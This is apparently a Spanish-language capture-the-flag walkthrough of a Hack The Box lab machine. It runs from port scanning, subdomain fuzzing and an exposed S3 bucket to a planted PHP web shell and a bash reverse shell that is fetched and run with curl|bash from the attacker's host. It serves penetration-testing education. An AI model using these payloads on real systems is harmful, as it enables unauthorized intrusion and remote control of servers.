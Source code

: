 🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.28.79

PING 10.129.28.79 (10.129.28.79) 56(84) bytes of data.
64 bytes from 10.129.28.79: icmp_seq=1 ttl=63 time=1179 ms

--- 10.129.28.79 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1179.219/1179.219/1179.219/0.000 ms
```

> Sistema operativo:  **Linux**

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vv 10.129.28.79 -oG openPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 22,80 -sCV 10.129.28.79 -oN targeted

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Toppers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Puerto | Servicio | Versión                                                      |
| ------ | -------- | ------------------------------------------------------------ |
| 22     | ssh      | OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0) |
| 80     | http     | Apache httpd 2.4.29 ((Ubuntu))                               |

🗹 Agregar el dominio al archivo `/etc/hosts`:

```shell
10.129.28.79  thetoppers.htb
```

🗹 Enumerar subdominios:

```shell
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u thetoppers.htb -H "Host:FUZZ.thetoppers.htb" --hl 234
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://thetoppers.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000247:   404        0 L      2 W        21 Ch       "s3"                                                                                                                   
```

🗹 Agregar el subdominio al archivo `/etc/hosts`:

```shell
10.129.28.79  thetoppers.htb s3.thetoppers.htb
```

🗹 Verificar el recurso en el subdominio encontrado:

```
http://s3.thetoppers.htb

{"status": "running"}
```

🗹 Instalar la interfaz de línea de comandos de  **AWS**:

```shell
pip install aws-shell
```

🗹 Acceder al bucket mediante la interfaz de línea de comandos `aws`:

```shell
aws --endpoint-url http://s3.thetoppers.htb s3 ls s3://thetoppers.htb

                           PRE images/
2024-03-09 23:37:38          0 .htaccess
2024-03-09 23:37:38      11952 index.php
```

🗹 Crear un archivo `php` para que reciba mediante un parámetro en la URL un comando para que se ejecute en el sistema operativo:

```php
<? system($_GET["cmd"]); ?>
```

🗹 Copiar el archivo al bucket mediante la interfaz de línea de comandos:

```shell
aws --endpoint-url http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb

upload: ./shell.php to s3://thetoppers.htb/shell.php
```

🗹 Verificar si se ejecuta un comando pasado por parámetro en la URL:

```
http://thetoppers.htb/shell.php?cmd=id

id=33(www-data) gid=33(www-data) groups=33(www-data)
```

🗹 Crear una reverse shell:

```shell
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.51/1234 0>&1
```

🗹 Levantar un servidor con `python` en el directorio donde se encuentra la reverse shell:

```shell
python3 -m http.server 8000
```

🗹 Ponerse en escucha por un puerto a elección para recibir la reverse shell:

```shell
nc -lnvp 1234
```

🗹 Transferir la reverse shell con el comando `curl` desde la URL mediante el parámetro que recibe el archivo que se subió anteriormente al bucket:

`http://thetoppers.htb/shell.php?cmd=curl%2010.10.14.51:8000/shell.sh|bash`

🗹 Una vez establecida la conexión con el servidor configurar la terminal y personalizar el entorno de la terminal:

```shell
script /dev/null -c bash

ctrl + z

stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty size
stty rows 44 columns 183
```
## Flag

La flag se encuentra en el directorio `/var/www/flag.txt`.